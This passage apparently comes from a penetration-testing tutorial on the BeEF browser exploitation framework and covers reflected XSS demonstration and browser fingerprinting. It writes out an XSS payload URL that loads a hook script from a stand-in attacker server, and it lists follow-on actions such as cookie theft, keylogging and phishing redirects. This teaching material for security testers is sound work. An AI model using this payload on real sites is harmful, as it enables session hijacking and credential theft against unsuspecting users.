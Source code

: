 Cross-Site Scripting remains one of the most prevalent web application vulnerabilities. BeEF provides robust capabilities for testing and demonstrating the impact of XSS vulnerabilities:

- Automated XSS payload generation and delivery
- Real-time monitoring of XSS exploit success
- Chaining XSS with other attack techniques for maximum impact

**Example: Demonstrating an XSS Vulnerability with BeEF**

1. Identify a web application with a reflected XSS vulnerability.
2. Craft a malicious URL that includes both the XSS payload and the BeEF hook:
   ```url
   http://vulnerable-site.com/search?q=<script src="http://your-beef-server:3000/hook.js"></script>
   ```
3. When a user clicks on this link, their browser will be hooked into BeEF.
4. Use BeEF's interface to execute various commands on the hooked browser, such as:
   - Stealing cookies
   - Logging keystrokes
   - Redirecting the browser to a phishing page
5. Document the potential impact and provide recommendations for fixing the vulnerability.

### 4. Browser Fingerprinting

BeEF's browser fingerprinting capabilities allow testers to gather detailed information about target browsers, including:

- Browser version and type
- Installed plugins and extensions
- Operating system details
- Screen resolution and color depth
- Installed fonts
- And much more

This information is crucial for tailoring attacks and understanding the potential attack surface of a target system.

**Example: Conducting a Detailed Browser Fingerprint**

1. Hook a target browser into BeEF using one of the previously discussed methods.
2. In the BeEF control panel, navigate to the "Details" tab for the hooked browser.
3. Examine the wealth of information provided, including:
   - User Agent string
   - Platform and OS details
   - List of installed plugins
   - Available storage mechanisms (e.g., LocalStorage, SessionStorage)
   - WebRTC information
   - Canvas fingerprint

Use this information to craft more targeted and effective exploits or to assess the uniqueness of the browser's fingerprint for tracking purposes.

### 5. Custom Module Development

One of BeEF's greatest strengths is its extensibility. Security professionals can create custom modules to:
